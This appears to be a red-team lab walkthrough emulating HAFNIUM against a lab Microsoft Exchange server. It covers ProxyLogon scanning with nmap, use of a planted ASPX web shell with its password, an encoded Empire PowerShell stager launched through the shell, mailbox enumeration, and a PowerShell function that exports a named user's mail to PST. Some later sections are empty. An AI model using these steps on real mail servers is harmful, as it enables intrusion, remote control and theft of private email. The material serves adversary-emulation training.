 #### Tags: [[12 - Command and Control (TA0011)]] | [[Creating and Testing Payloads]]
## Objectives

    Scan the Microsoft Exchange server
    Use a web shell to interact with the mail server
    Execute an Empire stager on the mail server
    Export user emails
    Read user emails for target intelligence
### Scan Microsoft Exchange
```markdown
# Scan mail server
cd /labs/sec-3/initial-access/

curl https://raw.githubusercontent.com/GossiTheDog/scanning/main/http-vuln-exchange.nse -o http-vuln-exchange.nse

nmap --script http-vuln-exchange.nse mail.draconem.io
```
#### ProxyLogon
- ProxyLogon is the name for CVE-2021-26855 and CVE-2021-27065. CVE-2021-26855 is a vulnerability on Microsoft Exchange that allows authentication bypass. 
- CVE-2021-27065 is a post authentication file write vulnerability. When chained together, they allow remote code execution by allowing an adversary to bypass authentication and write a web shell to the server.
![[Pasted image 20240324024102.png]]
###### Red Team Tip: Only use web shells wiSth authentication, otherwise others could leverage your web shell.
- Note: Depending on client we can request White cell to allow us to simulate exploitation to avoid take down production servers.

### Launch [[Empire C2#Create an Empire listener]]
- Launch Empire and start an http listener on port 8080 for your tun0 interface. 

### Create [[Creating and Testing Payloads#*Payload * Create interactive HTTP Powershell Stager|Payload: Create interactive HTTP Powershell Stager]]


### Interact with the Web Shell
- Navigate to URL to explore the webshell as it comes with a lot of functionality!
	- Password: `#$pwn3daspx#$h3ll` to authenticate to the web shell

![[Pasted image 20240324031111.png]]
#### Notes
- IIS Default Directory: `C:\Inetpub`
- Exchange Default Directory: `C:\Program _Files_\_Microsoft_\_Exchange Server_\V15\ClientAccess\Owa`
- Find a file via PowerShell `Get-ChildItem -Path 'C:\' -Recurse -Include 'rt-webshell-xcowe83.aspx' -File -Force`
- WebShell Path on Target system: `C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\rt-webshell-xcowe83.aspx`
- ASPX WebShell on Private GitHub: [**AspxRevShell**](https://github.com/raghavtalwar/Arsenal/tree/main/AspxRevShell)
 
### Deploy Agent on mail.draconem.io
*Goal:* We want to get an agent/beacon on this Microsoft Exchange system in order to bring more tools and capability.
1. Click Cmd command in the top navigation window. 
2. Paste your PowerShell stager into Statements to spawn a new agent. 
3. Click carried out and check starkiller for a new agent.
**Remember:** The Statements field should start with `/c powershell -noP -sta -w 1 -enc ...`

![[Pasted image 20240324032203.png]]

![[Pasted image 20240324032430.png]]

### Enumerate Users
- *Goal:* Pick up target intelligence from user email
- The `Microsoft.Exchange.Management.Powershell.SnapIn` that will allow us use additional PowerShell functions and cmdlets that interact with Microsoft Exchange
```markdown
# Enumerate the users with mailboxes
powershell -c "Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn; Get-Recipient | Format-Table -Auto Alias"
```
![[Pasted image 20240324033515.png]]
### Export User Emails
*Goal:* The PS script will leverage Exchange SnapIn, sets an output file and then exports the user's email to a PST file. 
- Create the file on Slingshot Linux at `/labs/sec-3/initial-access/export-email.ps1`
- Note: These commands need to run as a script because there are some inconsistencies with stating UNC paths
```powershell
function Export-Email {
    param (
        $User
    )
    Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn;
    $OutFile = "\\127.0.0.1\c$\ProgramData\" + $User + ".pst";
    New-MailboxExportRequest -Mailbox $User -FilePath $OutFile;
};
```
We will invoke this script with an Empire module called *invoke_script*. 
- Interact with your agent, select `powershell/management/invoke_script` from the Execute Module drop down list.
- Then enter the following values:

	    ScriptCmd: Export-Email Mark.Goodwin
	    ScriptPath: /labs/sec-3/initial-access/export-email.ps1

![[Pasted image 20240324033656.png]]

- There are many ways to complete a task but these commands mimic the same techniques used by HAFNIUM, the adversary we are emulating.

### Read User Emails


#### Notes | Bonus


## Conclusion